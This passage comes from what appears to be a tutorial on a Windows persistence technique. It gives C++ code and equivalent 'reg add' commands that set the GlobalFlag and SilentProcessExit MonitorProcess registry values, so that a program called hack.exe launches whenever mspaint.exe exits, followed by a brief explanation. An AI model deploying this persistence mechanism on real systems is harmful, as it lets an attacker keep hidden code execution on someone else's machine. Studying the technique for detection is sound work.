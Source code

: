 ```cpp

  // GlobalFlag
  // LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
    RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
    RegCloseKey(hkey);
  }

  // res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\mspaint.exe", 0 , KEY_WRITE, &hkey);
  res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)silent, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "Z:\..\hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"ReportingMode", 0, REG_DWORD, (const BYTE*)&rM, sizeof(rM));
    RegSetValueEx(hkey, (LPCSTR)"MonitorProcess", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

So what have we done here? Firstly, we created `SilentProcessExit` key under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion`, then  enabled silent process exit monitoring feature by adding `GlobalFlag`:    

```cpp
//...

LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);

//...
//...

// reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe" /v GlobalFlag /t REG_DWORD /d 512
RegSetValueEx(hkey, (LPCSTR)"GlobalFlag", 0, REG_DWORD, (const BYTE*)&gF, sizeof(gF));
//...
```

